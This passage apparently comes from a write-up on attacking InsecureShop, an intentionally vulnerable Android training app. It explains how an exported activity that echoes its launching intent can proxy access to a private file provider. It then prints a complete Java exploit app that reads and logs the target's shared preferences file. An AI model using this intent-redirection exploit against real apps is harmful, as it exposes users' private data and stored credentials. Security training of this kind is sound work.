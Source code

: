 
But in our case, we have something different: `setResult(-1, getIntent());` the `setResult` is just returns itself again, i.e. :

- By passing `getIntent()` as the second parameter to `setResult()`, you are returning the same `Intent` that was used to start the current activity. This `Intent` may contain any data that was passed when the activity was launched.

So if the `setResult()` returns data that was passed when the activity was launched, and we are controlling the launcher activity ( Activity A — Exploit app ). Simply put, we can add any code to interact with InsecureShop, as if we were him, then get the data. For simplicity, any app contains exported and unexported activities. Any app could access other apps' exported activities, but the unexported activities can only be accessed inside its app, which is simple and easy. But here we have an exported activity that allows us to get the result of any launching activity that we want. It acts as a proxy between the exploit app and the target app.

We can use this to access the unexported content provider `com.insecureshop.file_provider`. Let’s create our exploit app:

```java
public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        
        Intent ResultActivityExploit = new Intent();
        ResultActivityExploit.setClassName("com.insecureshop", "com.insecureshop.ResultActivity");
        ResultActivityExploit.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
        Uri contentUri = Uri.parse("content://com.insecureshop.file_provider/root/data/data/com.insecureshop/shared_prefs/Prefs.xml");
        ResultActivityExploit.setData(contentUri);
        startActivityForResult(ResultActivityExploit, 1);
    }
    protected void onActivityResult(int requestCode, int resultCode, Intent data) {
        super.onActivityResult(requestCode, resultCode, data);

            if (requestCode == 1 && resultCode == RESULT_OK) {
                // Capture the returned data
                Uri returnedUri = data.getData();
                if (returnedUri != null) {
                    // Access the content using the returned URI
                    try {
                        InputStream inputStream = getContentResolver().openInputStream(returnedUri);
                        // Do something with the input stream, e.g., display or log the content
                        // For example, read the input stream and print to screen
                        BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));
                        String line;
                        StringBuilder result = new StringBuilder();
                        while ((line = reader.readLine()) != null) {
                            result.append(line).append("\n");
                        }
                        // Display the content on the screen
                        Log.d("Data", result.toString());
                    } catch (Exception e) {
                        e.printStackTrace();
                    }
                }
            }
    }
}
```
